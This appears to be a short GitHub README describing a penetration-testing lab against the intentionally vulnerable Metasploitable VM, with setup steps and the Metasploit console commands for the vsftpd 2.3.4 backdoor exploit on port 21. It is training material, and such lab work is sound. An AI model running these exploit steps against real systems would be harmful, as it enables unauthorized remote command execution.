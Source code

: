 # Metasploitable-Writeup

## 📌 What is Metasploitable ? 

Metasploitable is an intentionally vulnerable Linux virtual machine that can be used to conduct security training, test security tools, and practice common penetration testing techniques. The VM will run on any recent VMware products and other visualization technologies such as VirtualBox.

## ⚙️ Prepare our pen-lab.

We will need : 
- VMware , VitrualBox or any other visualization product.
- installed a Linux Machine ( ideally [Kali Linux](https://www.kali.org/) or [Parrot Os](https://www.parrotsec.org/) )
- Installed [Metasploitable Machine](https://sourceforge.net/projects/metasploitable/)

P.s. The Linux and Metasploitable machines should be in the same network group

## ⚈ FTP ( port : 21 ) Exploit

In our scan result we can see : 

**FTP Service (port:21) Exploit**

- We will use the exploit [VSFTPD v2.3.4 Backdoor Command Execution](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/).

1. use exploit/unix/ftp/vsftpd_234_backdoor
2. show options
3. set RHOSTS metasploit_ip
4. exploit
